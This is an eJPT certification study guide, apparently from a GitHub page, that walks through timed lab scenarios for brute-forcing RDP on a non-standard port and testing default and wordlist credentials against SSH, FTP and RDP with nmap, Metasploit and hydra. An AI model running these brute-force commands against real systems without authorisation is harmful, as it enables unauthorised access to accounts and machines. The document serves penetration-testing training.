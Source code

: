 ### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: RDP Non-standard Port Attack**
**Given:** Nmap scan shows port 3333 open, service detection confirms RDP
**Your Job:** Discover valid RDP credentials and establish remote access
**Time Limit:** 8-10 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Confirm RDP service (2 minutes)
nmap -p 3333 -sV target_ip
# Look for RDP-related service information

# Step 2: Use Metasploit for service verification (2 minutes)
msfconsole -q
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS target_ip
set RPORT 3333
exploit

# Step 3: Execute hydra brute force attack (4-5 minutes)
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://target_ip -s 3333
# Monitor for successful credential discovery

# Step 4: Verify access with RDP client (1-2 minutes)
xfreerdp /u:discovered_user /p:discovered_pass /v:target_ip:3333
# Confirm successful authentication and system access
```

#### **Scenario 2: Multi-service Credential Testing**
**Given:** Multiple services discovered (SSH, FTP, RDP, HTTP) requiring authentication
**Your Job:** Find valid credentials across multiple services
**Time Limit:** 10-12 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Test common credentials across all services (3 minutes)
hydra -l admin -p admin target_ip ssh
hydra -l admin -p admin target_ip ftp
hydra -l administrator -p administrator target_ip rdp
hydra -l anonymous -p anonymous target_ip ftp

# Step 2: Systematic wordlist attacks (6-7 minutes)
hydra -L common_users.txt -P common_passwords.txt ssh://target_ip &
hydra -L ftp_users.txt -P ftp_passwords.txt ftp://target_ip &
hydra -L common_users.txt -P common_passwords.txt rdp://target_ip &
wait

# Step 3: Verify discovered credentials (2-3 minutes)
ssh discovered_user@target_ip
ftp target_ip
xfreerdp /u:discovered_user /p:discovered_pass /v:target_ip
# Test each discovered account for functionality
```
